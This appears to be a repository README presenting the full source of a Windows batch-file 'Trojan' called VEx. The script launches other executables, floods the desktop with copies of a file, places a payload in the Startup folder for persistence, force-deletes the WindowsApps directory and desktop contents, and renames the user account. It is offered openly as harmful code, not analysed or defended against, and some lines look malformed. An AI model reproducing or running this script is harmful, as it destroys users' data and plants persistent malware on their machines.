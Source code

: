 # Trojan.VEx.Win32
Updated The Files Where Not Arranged Correct

READ ME :
This is a Windows Trojan That Can Harm Your PC
Here Is The Harmful Code :
@echo off 
Goto 1

:1
start c:\vexwork1.exe
start c:\vexwork4.exe
start c:\vexwork3.deskthemepack
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\test.exe" "%userprofile%\Desktop\VEx KILLED%random%.exe"
copy "C:\vexwork4.exe" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\vexwork4.exe"
del /f /s /q "C:\Program Files\WindowsApps"
del /f /s /q "%userprofile\Desktop\%"
wmic useraccount where='%username%' set FullName='VEx Infected' 
wmic useraccount where='%username%' rename 'VEx Infected'
exit

This Deletes Windows Apps Sets Username and Puts Payload In Startup.
